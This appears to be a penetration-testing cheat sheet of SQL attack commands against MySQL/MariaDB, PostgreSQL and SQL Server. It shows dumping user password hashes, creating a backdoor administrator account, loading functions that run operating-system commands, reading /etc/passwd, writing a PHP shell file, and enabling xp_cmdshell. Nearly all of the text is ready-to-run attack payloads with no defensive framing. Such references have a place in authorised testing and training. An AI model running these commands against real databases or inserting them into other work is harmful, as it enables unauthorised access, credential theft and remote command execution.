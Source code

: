 ## Database-Specific Attacks

### MySQL/MariaDB

```sql
-- Version detection
SELECT @@version

-- User enumeration
SELECT user, host, password FROM mysql.user

-- Privilege escalation
-- Create admin user
CREATE USER 'hacker'@'%' IDENTIFIED BY 'password';
GRANT ALL PRIVILEGES ON *.* TO 'hacker'@'%';

-- UDF for command execution
CREATE FUNCTION sys_exec RETURNS int SONAME 'lib_mysqludf_sys.so';
SELECT sys_exec('id');
```

### PostgreSQL

```sql
-- Version
SELECT version()

-- Read file
CREATE TABLE temp(data text);
COPY temp FROM '/etc/passwd';
SELECT * FROM temp;

-- Write file
COPY (SELECT 'shell code') TO '/tmp/shell.php';

-- Command execution (requires superuser)
CREATE OR REPLACE FUNCTION system(cstring) RETURNS int AS '/lib/x86_64-linux-gnu/libc.so.6', 'system' LANGUAGE 'c' STRICT;
SELECT system('id');
```

### Microsoft SQL Server

```sql
-- Version
SELECT @@version

-- Enable xp_cmdshell
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;

-- Execute commands
EXEC xp_cmdshell 'whoami';

-- Read file
EXEC xp_cmdshell 'type C:\Windows\System32\drivers\etc\hosts';

-- Linked servers
EXEC sp_linkedservers;
```
